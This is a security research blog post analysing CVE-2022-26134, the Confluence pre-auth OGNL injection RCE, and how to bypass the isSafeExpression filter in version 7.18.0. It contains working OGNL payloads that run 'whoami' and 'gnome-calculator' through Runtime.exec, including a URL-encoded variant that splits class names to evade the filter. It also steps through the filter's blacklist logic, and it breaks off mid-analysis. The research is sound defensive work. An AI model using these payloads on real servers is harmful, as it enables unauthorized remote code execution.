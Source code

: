 ```yaml
---
layout: post
title:  "CVE-2022-26134: A look into bypass isSafeExpression check in Confluence Preauth RCE"
date:   2022-06-06 16:00:00 +0700
categories: research
author: Quang Vo
tags: 0day, cve-2022-26134
description: Research analysis and develop a working exploit poc script 
---
```


## Introduction & Environment setup

CVE-2022-26134 is an Preauth RCE ( OGNL injection vulnerability ) in Confluence Server. As there are a lot of technical analysis and payload about the vulnerability already, while the payload works on most of confluence server versions, but it won't work in Confluence server version 7.18.0 because the dev team has added some additional check for safe expression. So in this post, I will focus on the bypass `isSafeExpression` of Confluence version 7.18.0.

For environment setup, I download Confluence server version 7.18.0 on: [https://www.atlassian.com/software/confluence/download-archives](https://www.atlassian.com/software/confluence/download-archives)

For Postgres database, I use docker to quickly spin up the postgresdb:
```text
version: '3.4'
services:
        db:
                image: postgres:latest
                environment:
                        - POSTGRES_PASSWORD=postgres
                        - POSTGRES_DB=confluence
                        - POSTGRES_USER=postgres
                ports:
                        - 5432:5432
```

## Technical Analysis

Rapid7 Team did a great job on publishing the [blog post](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) and the exploit payload, here's the payload that I copied from their blog

```java
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("whoami").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

But when I try that payload on Confluence version 7.18.0, it didn't work. So I add remote debugger to add breakpoints to see what is the difference between their version and mine.


Based on security advisories from Confluence, I download the `xwork-1.0.3-atlassian-10.jar` from their website and start to diffing patches, it's easy to identify  `ActionChainResult.class`  is where our vulnerability lies at.

![image](https://user-images.githubusercontent.com/37280106/172528678-4bed14c4-bc8d-4809-99ae-1c49d86fa9c2.png)

How an attacker provided URI can cause the vulnerability is well-explained and mentioned in this [blog post](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) ( you can go to their blog if you curious about the call stack to reach to our vulnerable code ), I just want to quickly note that because of this piece of code:

```java
public static String getNamespaceFromServletPath(String servletPath) {
    servletPath = servletPath.substring(0, servletPath.lastIndexOf("/"));
    return servletPath;
}
```

Every payload that you send must end with `/` , otherwise it won't reach the vulnerable code path. I learned that from my own experience after trying to figure it out why the breakpoint won't hit when I send the payload 

Our call stack to vulnerable code so far:
```
TextParseUtil.translateVariables(this.namespace, stack);
        OgnlValueStack.findValue
```

Content of `OgnlValueStack.findValue`
![image](https://user-images.githubusercontent.com/37280106/172530117-33346b6c-7804-483a-ae1f-1dfdcc2eaee6.png)

Here we see that there is an additional check `this.safeExpressionUtil.isSafeExpression(expr)` ,  which will eventually leads to `SafeExpressionUtil.isSafeExpressionInternal`

Content of `SafeExpressionUtil.isSafeExpressionInternal` , let's put a breakpoint at this function and send our payload to see what will happen
![image](https://user-images.githubusercontent.com/37280106/172530562-d25f5861-49b6-4de8-b4e7-35719025496f.png)

Here I use the simple payload to hit the breakpoint in our code: 
```
%24%7b%22%22%20%2b%20Class.forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22%2c%20null).invoke(null%2cnull).exec(%22gnome-calculator%22)%7d%7d/
```
![image](https://user-images.githubusercontent.com/37280106/172531464-cc30aea6-b81a-45c1-af0c-113494a2348e.png)

Here we will go through the first check, `isUnsafeClass(expr)` 

```java
    private boolean isUnSafeClass(String expression) {
        String trimmedClassName = this.trimQuotes(expression);
        if (this.unsafePropertyNames.contains(trimmedClassName)) {
            return true;
        } else if (SourceVersion.isName(trimmedClassName)) {
            List<String> parentPackageNames = this.populateParentPackages(trimmedClassName, new ArrayList());
            Stream var10000 = parentPackageNames.stream();
            Set var10001 = this.unsafePackageNames;
            var10001.getClass();
            return var10000.anyMatch(var10001::contains);
        } else {
            return false;
        }
    }
```
Where `this.unsafePropertyNames` is a `HashSet` includes:
![image](https://user-images.githubusercontent.com/37280106/172532694-065d5872-2a97-46fc-b260-ef3be1f2bb19.png)

Here we have a blacklist of forbidden property names, luckily our `trimmedClassName` variable is a long expression string **still** and not contains in the hashset so we can pass this check. Please keep in mind this list because it will be very important as we go along in our debug journey 

Follow our code flow, we hit another check `this.containsUnsafeExpression(parsedExpression, visitedExpression)`
![image](https://user-images.githubusercontent.com/37280106/172533345-09b239d4-90b3-4261-9495-317a5235613b.png)

Content of `this.containsUnsafeExpression` 

![image](https://user-images.githubusercontent.com/37280106/172533604-fd1fc44d-143d-4444-8100-353e85540adb.png)

At a high-level overview of this function, it checks for "unsafe" expression by:
- Have a allowed whitelist of classNames, methodNames, variableNames and properties
- Utilies AST parsing to check for unsafe node types
- In the for loop, it extracting the `childNode` one by one and then call the `containsUnsafeExpression` to perform the check again

`UNSAFE_NODE_TYPES` is a `HashSet` includes:

![image](https://user-images.githubusercontent.com/37280106/172555031-7416d072-ac8e-4132-81e7-1ae3ff028e8b.png)

Going back to the beginning of our blog, I mentioned the payload 
```java
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("whoami").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

That works fine for other versions, but not 7.18.0 with this `containsUnsafeExpression` check, let's try to send that payload and see what happens:

![image](https://user-images.githubusercontent.com/37280106/172557725-2c964070-c4c5-44cd-99cf-3e431adff3ed.png)
As you can see, after our expression string is parsed into a OGNL Node, it has 3 childrens:
```
ASTAssign: #a = @org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("whoami").getInputStream(), "utf-8")
ASTStaticMethod: @com.opensymphony.webwork.ServletActionContext@getResponse()
ASTMethod: setHeader("X-Cmd-Response", #a)
```

You can guess why it doesn't work, because `ASTAssign` is in `UNSAFE_NODE_TYPES` so `containsUnsafeExpression` return true and we cannot get our expression evaluated 

Going back to our payload that we sent in the beginning:
```
%24%7b%22%22%20%2b%20Class.forName(%22java.%22%20%2b%20%22lang.Runtime%22).getMethod(%22getRuntime%22%2c%20null).invoke(null%2cnull).exec(%22gnome-calculator%22)%7d%7d/
```

After the first loop, we end up in with `i=1` with our current values:

![image](https://user-images.githubusercontent.com/37280106/172659455-e6d99a9b-3c46-4712-87bf-207833c3d02b.png)

We are calling `this.containsUnsafeExpression(childNode, visitedExpressions)` where:
```
childNode: forName("java.lang.Runtime")
```

In the next `containsUnsafeExpression` 's loop, we got this value
![image](https://user-images.githubusercontent.com/37280106/172665189-68357b0b-e670-4dba-a585-39dc1d85720b.png)

Here we are calling `containsUnsafeExpression` again, with values:
```
childNode: java.lang.Runtime
```

![image](https://user-images.githubusercontent.com/37280106/172667092-8540bce3-68f5-4d65-96f9-4adc8ac484a1.png)

In this call, our node type is `ASTConst`, so in this line of code:
```
String nodeClassName = node.getClass().getName(); 

=> nodeClassName will be ognl.ASTConst
```

Follow the code flow, in line 117, we will move to this `else if block`;
```java
else if ("ognl.ASTConst".equals(nodeClassName) && !this.isSafeConstantExpressionNode(node, visitedExpressions)) {
       return true;
 }
```

Content of `this.isSafeConstantExpressionNode`:
```java
private boolean isSafeConstantExpressionNode(Node node, Set<String> visitedExpressions) {
        try {
            String value = node.getValue(new OgnlContext(), (Object)null).toString();
            if (!visitedExpressions.contains(value) && value != null && !value.isEmpty()) {
                visitedExpressions.add(value);
                return this.isSafeExpressionInternal(value, visitedExpressions);
            } else {
                return true;
            }
        } catch (OgnlException var4) {
            log.debug("Cannot verify safety of OGNL expression", var4);
            return true;
        }
    }
```

In `this.isSafeConstantExpressionNode` , it will call `this.isSafeExpressionInternal(value, visitedExpression)` where:
- `value: java.lang.Runtime`
- `visitedExpression<Hashset>: {"java.lang.Runtime", "Class"}` 
